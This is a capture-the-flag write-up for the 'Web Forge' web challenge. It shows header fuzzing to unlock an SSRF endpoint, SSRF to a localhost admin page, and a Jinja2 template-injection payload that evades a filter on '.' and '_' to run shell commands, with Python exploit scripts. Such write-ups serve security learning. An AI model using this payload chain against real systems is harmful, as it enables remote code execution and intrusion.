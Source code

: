 # Web Forge

```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
https://wormhole.sunshinectf.games/
```

Visit <https://wormhole.sunshinectf.games/fetch>, an error is given:

```
403 Forbidden: missing or incorrect SSRF access header
```

Visit <https://wormhole.sunshinectf.games/robots.txt>, it hints the hidden `/admin` endpoint and the missing header for `/fetch`:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Try differnt auth headers:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"
# headers.txt downloaded from https://github.com/devanshbatham/headerpwn/blob/main/headers.txt
headers_to_try = [line.split(":")[0] for line in open("headers.txt")]
values = ["true"]

for h in headers_to_try:
    for v in values:
        r = requests.get(url, headers={h: v}, allow_redirects=False, timeout=5)
        print(f"{h}: {v} -> {r.status_code}")
        if r.status_code != 403:
            print("Possible winner:", h, v)
            print(r.text[:500])
            raise SystemExit
```

The corrent answer is `Allow: true` header. After that, we can access the `/fetch` endpoint. It has a form for ssrf:

```html
<div class="form-group">
    <label for="url">Target URL</label>
    <input type="url" id="url" name="url" placeholder="https://example.com" required>
    <small class="hint">Enter a complete URL including http:// or https://</small>
</div>
```

So we can POST for SSRF. We want to access `/admin`, which seems to only allow access from localhost:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"

r = requests.post(
    # not working
    #url, headers={"Allow": "true"}, data={"url": "https://wormhole.sunshinectf.games/admin"}
    # working
    url, headers={"Allow": "true"}, data={"url": "http://127.0.0.1:8000/admin"}
)
print(r.text)
```

It says `Request failed: Missing template parameter`, so the next step is template injection. Try typical Jinja injection payload from <https://onsecurity.io/article/server-side-template-injection-with-jinja2/>, until we find that the server forbids `.` or `_`, but we can still execute arbitrary command with:

{% raw %}
```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('command')['read']()}}
```
{% endraw %}

It does work. Then, we only need to read flag out from the directory:

{% raw %}
```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"


def run(cmd):
    r = requests.post(
        url,
        headers={"Allow": "true"},
        data={
            "url": "http://127.0.0.1:8000/admin?template={{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('"
            + cmd
            + "')['read']()}}"
        },
    )
    print(r.text)

run("ls -al")
run("cat f*")
```
{% endraw %}

Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`.
